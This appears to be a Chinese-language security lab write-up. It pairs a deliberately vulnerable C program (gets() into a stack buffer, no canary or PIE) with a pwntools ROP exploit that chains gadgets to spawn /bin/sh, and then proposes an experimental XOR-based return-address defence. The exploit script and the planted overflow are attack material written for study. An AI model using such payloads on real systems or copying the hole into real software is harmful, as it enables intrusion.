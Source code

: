#Buffer Overflow With DEP

我設計了一個有buffer overflow漏洞的程式，開啟保護**DEP（NX）**的保護

為了方便實作DEP的bypass，ASLR調整為1，不開啟canary跟PIE的保護

code：

```
//ROP.c
#include <stdlib.h>
#include <stdio.h>

void bof(){
	int buf[50];
	gets(buf);
	return;
}

int main(){
	bof();
	return 0;
}
```

DEP不允許區段的寫入跟執行權限同時開啟

所以stack上佈好shellcode也無法執行

但有人想到一種bypass的方式

---

###ROP
想要我的財寶嗎？想要的話可以全部給你，去找吧！我把所有財寶都放在那裡XD

>找到程式中，可執行的片段（gadget），組合成shellcode

>gadgets的最後一個指令是ret的話

>就可以持續串聯下一個gadget

利用ROPgadget這套工具可以快速建好gadgets，只是要想辦法組好shellcode而已

攻擊程式：

```
#ROP.py
from pwn import *

r = remote('0.0.0.0', 4000)	#qira

binsh1 = 0x6e69622f	#'/bin'
binsh2 = 0x68732f	#'/sh'

padding = 'a' * 204 + p32(binsh1) + p32(binsh2)	#overflow & set /bin/sh at ebp-4 & ebp

#gadgets
pop_a = 0x080b8fa6	#pop eax ; ret
pop_dcb = 0x0806f9f0	#pop edx ; pop ecx ; pop ebx ; ret
syscal = 0x0806d5a5	#int 0x80

payload = padding + p32(pop_a) + p32(0xb) + p32(pop_dcb) + p32(0) + p32(0) + p32(0xf6fff354) + p32(syscal)

r.sendline(payload)

r.interactive()

r.close()
```

>某天我想到一個娛樂性有點高的防禦方法

>可以擋下ROP這類的攻擊，但是目前仍有一點缺陷...

===

#Defense ROP

其實，我一開始只是想讓他跳不到shellcode而已

為了完成這樣的目的，在程式流程剛進入callee時

我把gs段的0x14(就是32bits下的canary)跟ebp+4(return address)做XOR

然後放回去ebp+4

程式要返回caller之前，再取canary跟ebp+4做XOR，還原真正的return address

**如果ebp+4已經被竄改過**，他還是會和canary做XOR

這樣就跳不到attacker想要的位址了，感覺起來還不錯

code:（asm inline模擬版本）

```
//Defense.c
#include <stdlib.h>
#include <stdio.h>

void bof(){
	__asm__("mov %gs:0x14, %ecx\n\t"
		"xor 4(%ebp), %ecx\n\t"
		"mov %ecx, 4(%ebp)\n\t"
		"xor %ecx, %ecx");
	int buf[50];
	gets(buf);
	__asm__("mov %gs:0x14, %ecx\n\t"
		"xor 4(%ebp), %ecx\n\t"
                "mov %ecx, 4(%ebp)\n\t"
                "xor %ecx, %ecx");
	return;
}

int main(){
	bof();
	return 0;
}
```

缺陷是stack被洩漏的話，attacker可以先調整好第一個gadget

**娛樂性**在於：我真的不知道他會跳去哪裡

如果他XOR做完的return address是合法的，我完全無法預測會發生什麼事XD

目前當機次數：1


暫時先寫這樣，再慢慢擴充好了
